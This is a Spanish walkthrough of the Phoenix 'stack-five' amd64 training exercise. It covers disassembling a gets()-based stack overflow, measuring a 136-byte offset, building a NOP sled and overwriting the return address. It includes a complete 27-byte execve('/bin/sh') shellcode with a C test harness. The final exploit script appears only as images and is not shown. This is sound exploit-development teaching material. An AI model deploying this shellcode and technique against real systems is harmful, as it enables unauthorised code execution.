








# STACK-FIVE amd64

Este nivel presenta el uso de los **shellcode** para ejecutar código arbitrario.&#x20;


Por ahora no vamos a crear nuestro propio **shellcode**, existen muchos ejemplos de **shellcode** en la red.

Si queremos **debuggear** nuestro **shellcode**, tendremos que añadir **breakpoints** a nuestro código ya que no lo podremos hacer desde el depurador.

Estos **breakpoint** se añaden incluyendo `0xcc` a nuestro código.

Asegúrate de eliminarlos cuando termines con ellos.


## UTILIZANDO EL DEPURADOR

Como en todos los anteriores, lo primero es utilizar `rabin2` para obtener más información del binario:


Después lo podemos abrir en nuestro depurador, analizar todo y comprobar las funciones para ver qué estamos buscando:



Vemos que el binario utiliza las funciones **gets, puts**. Las conocemos de los ejemplos anteriores así que ya sabemos que **gets** es explotable.

Además de eso, vemos que hay llamadas a dos funciones que conocemos pero no hay una función **complete\_level** que nos permita vencer el nivel. En este caso, tendremos que abrir una shell remota para obtener la victoria.

Vamos a analizar el desensamblado de ambas:

* **sym.start\_level**:



```nasm
// PROLOGO
push rbp
mov rbp, rsp

// DECLARACION DE VARIABLES Y FUNCION PRINCIPAL
add rsp, -0x80                    // Introduce un buffer de 128 bytes en stack
lea rax, qword [rbp - local_80h]  // Carga la direccion de [rbp - 0x80] en rax.
mov rdi, rax                      // mueve lo anterior a rdi.
call sym.imp.gets                 // llamada a gets

// RETURN
nop
leave
ret
```

Podemos observar que la llamada a la función vulnerable gets() se encuentra en esta función.

* **sym.main**:



```nasm
// PROLOGO
push rbp
mov rbp, rsp

// DECLARACION DE VARIABLES
sub rsp, 0x10
mov dword [rbp - local_4h], edi
mov qword [rbp - local_10h], rsi

// BANNER
mov edi, str.Welcome_to_phoenix_stack_five...
call sym.imp.puts

// LLAMADA A START_LEVEL
mov eax, 0
call sym.start_level

// RETURN (NO EXIT) 
mov eax, 0
leave
ret

```


**ATENCIÓN**

Un apunte importante es ver que la ejecución de la función **main** no termina con **exit(),** de hecho, la funcion **exit()** no se utiliza en ninguna parte del binario. Esto se debe a que en la función **main()** es opcional indicar el retorno.

Si no existe un entero de retorno definido para la función **main()**, se tomará como 0.


&#x20;Ya hemos analizado lo más importante de éste binario, a continuación vamos a preparar el exploit:

## PREPARANDO EL EXPLOIT

Como ya hemos mencionado, nuestro objetivo es ejecutar una shell en nuestro objetivo, en este caso, en la máquina **phoenix**. Los pasos a seguir para conseguir que el **shellcode** se ejecute son los siguientes:

1. Comprobar si el **stack** es **ejecutable**.
2. Identificar el tamaño del **Buffer**.
3. Colocar nuestra **shellcode** en el **Buffer**.
4. Añadir un tobogán de **NOPS** para facilitar la ejecución.
5. **Sobrescribir la dirección de retorno** para que retorne a la posición de nuestra shellcode.
6. Obtener una **shell** interactiva.

#### Comprobar si el stack es ejecutable:

Para identificar los permisos que tenemos sobre los diferentes segmentos del binario podemos utilizar la aplicación readelf con el argumento -l para ver las secciones del binario:



Vemos que en el **Stack** tenemos permisos de **lectura, escritura y ejecución**.

#### Identificar el tamaño del **Buffer**

Para identificar el tamaño del Buffer podemos calcular cuantos bytes tenemos desde la dirección de memoria en la que se almacena el primer carácter del buffer hasta la dirección de retorno:

Vamos a marcar un Breakpoint justo después de la llamada a la función **gets()** e introducimos **"AAAA"** por stdin en dicha función.

Del desensamblado de la función main() podemos averiguar que la dirección de retorno es `0x004005c7`



Si calculamos el número de bytes que existen entre los dos datos obtenemos que son 136 bytes. Ese es el espacio que tenemos para nuestra shellcode y nuestro tobogan de nops.

#### Colocar nuestra **shellcode** en el **Buffer**.

Para este paso necesitamos un shellcode, en este caso vamos a utilzar el siguiente shellcode predefinido de shell-storm:



```
/*
 * Execute /bin/sh - 27 bytes
 * Dad` <3 baboon
;rdi            0x4005c4 0x4005c4
;rsi            0x7fffffffdf40   0x7fffffffdf40
;rdx            0x0      0x0
;gdb$ x/s $rdi
;0x4005c4:        "/bin/sh"
;gdb$ x/s $rsi
;0x7fffffffdf40:  "\304\005@"
;gdb$ x/32xb $rsi
;0x7fffffffdf40: 0xc4    0x05    0x40    0x00    0x00    0x00    0x00    0x00
;0x7fffffffdf48: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
;0x7fffffffdf50: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
;0x7fffffffdf58: 0x55    0xb4    0xa5    0xf7    0xff    0x7f    0x00    0x00
;
;=> 0x7ffff7aeff20 <execve>:     mov    eax,0x3b
;   0x7ffff7aeff25 <execve+5>:   syscall 
;

main:
    ;mov rbx, 0x68732f6e69622f2f
    ;mov rbx, 0x68732f6e69622fff
    ;shr rbx, 0x8
    ;mov rax, 0xdeadbeefcafe1dea
    ;mov rbx, 0xdeadbeefcafe1dea
    ;mov rcx, 0xdeadbeefcafe1dea
    ;mov rdx, 0xdeadbeefcafe1dea
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    ;mov rdi, rsp
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    ;mov rsi, rsp
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
 */

#include <stdio.h>
#include <string.h>

char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```

#### Añadir un tobogán de **NOPS** para facilitar la ejecución.


**CONSEJO**

La instrucción NOP (0x90 en hexadecimal), indica al procesador que no haga nada.

Utilizamos un "tobogán de NOPs" que nos permite asegurarnos de que la ejecución del programa caerá en él y llegará al inicio de nuestra shellcode y no a mitad.&#x20;


Vamos a empezar a preparar nuestro **exploit** en python con todo lo que hemos visto anteriormente y nuestro tobogán listo:



#### **Sobrescribir la dirección de retorno** para que retorne a la posición de nuestra shellcode.

Por ultimo necesito una dirección de retorno dentro del tobogán de NOPs que permita que nuestro shellcode se ejecute. Por ejemplo: `0x7fffffffe600` (Lo podemos sacar de la imagen del stack.

Por tanto, nuestro exploit quedaría de la siguiente manera:



## EXPLOTANDO LA VULNERABILIDAD

Para introducir el input por stdin vamos a utilizar rarun2. La plantilla quedaría como sigue:


